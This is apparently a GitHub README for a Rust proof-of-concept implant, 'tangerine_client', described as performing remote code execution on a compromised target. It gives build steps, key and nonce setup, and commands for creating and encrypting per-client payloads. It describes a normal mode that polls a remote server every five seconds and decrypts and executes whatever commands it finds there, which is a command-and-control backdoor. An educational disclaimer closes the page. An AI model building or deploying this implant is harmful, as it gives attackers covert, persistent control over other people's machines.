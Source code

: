 A novel proof of concept mechanism for performing remote code execution on a compromised target written in Rust. In theory, this mechanism allows a client to create tailored payloads for specific clients, which will poll, decrypt, and execute arbitrary code. (No one was harmed in the making of this)

## Usage Instructions

### Prerequisites
- Rust toolchain installed (version 1.81.0 or newer required)
- A server to host the encrypted payloads
- AES-256-GCM encryption key and nonce for each client
- OpenSSL development libraries:
  - **Windows**: Install OpenSSL using vcpkg or the official installer
  - **Linux**: `sudo apt install libssl-dev` (Ubuntu/Debian) or `sudo dnf install openssl-devel` (Fedora)
  - **macOS**: `brew install openssl`

### Building the Client

1. **Set up OpenSSL (Windows only)**:
```powershell
# Option 1: Using vcpkg
git clone https://github.com/Microsoft/vcpkg.git
cd vcpkg
./bootstrap-vcpkg.bat
./vcpkg install openssl:x64-windows
$env:OPENSSL_DIR = "C:\path\to\vcpkg\installed\x64-windows"
$env:OPENSSL_LIB_DIR = "C:\path\to\vcpkg\installed\x64-windows\lib"

# Option 2: Using official installer
# Download and install from https://slproweb.com/products/Win32OpenSSL.html
$env:OPENSSL_DIR = "C:\Program Files\OpenSSL-Win64"
$env:OPENSSL_LIB_DIR = "C:\Program Files\OpenSSL-Win64\lib"
```

2. **Set up the environment variables** (MUST be set before building):
```bash
# Required variables
export ENCRYPTION_KEY="abcdef0123456789abcdef0123456789"  # 32 bytes
export NONCE="0123456789ab"  # 12 bytes

# Optional variables (will use defaults if not set)
export CLIENT_ID="your-client-id"                    # Will generate UUID v4 if not set
export BASE_URI="https://your-server.com/commands/"  # Defaults to example URI if not set
```

3. **Build the project**:
```bash
# Clean any previous build
cargo clean

# Build from the project root
cargo build --release

# Or from the client directory
cd client
cargo build --release
```

The compiled binary will be available at `target/release/tangerine_client`

### Creating Payloads

1. **Show Client ID**:
```bash
./target/release/tangerine_client "show me the magic tangerine"
```
This will display your client ID.

2. **Create a New Payload**:
```bash
./target/release/tangerine_client "create my tangerine"
```
This creates a template file in `./commands/{client_id}`. Edit this file to add your commands, one per line.

3. **Encrypt the Payload**:
```bash
./target/release/tangerine_client "hide my tangerine"
```
This encrypts the commands and creates `./commands/{client_id}.tangerine`.

### Running the Client
The client can be run in two modes:

1. **Normal Mode** (Remote Execution):
```bash
./target/release/tangerine_client
```
The client will:
- Poll the configured base URI every 5 seconds
- Look for a file named `{client_id}.tangerine`
- Decrypt and execute any new commands found

2. **Development Mode** (Local Testing):
```bash
# Show your client ID
./target/release/tangerine_client "show me the magic tangerine"

# Create a new command template
./target/release/tangerine_client "create my tangerine"

# Encrypt your commands
./target/release/tangerine_client "hide my tangerine"
```
These commands help you create and encrypt payloads for testing purposes.

### Payload Format
The remote payload file (`{client_id}.tangerine`) should be formatted as follows:
```
!TANGERINE_ENC
[encrypted_command_1]
[encrypted_command_2]
...
```

Each line after the header should be encrypted using AES-256-GCM with the client's unique key and nonce.

### Security Notes
- Each client requires a unique encryption key and nonce
- The client ID is used to identify specific targets
- All communication is encrypted using AES-256-GCM
- The system uses ETags to track payload changes

## Disclaimer
This is a proof of concept for educational purposes only. Do not use this code for malicious purposes or on systems you don't own or have permission to access.
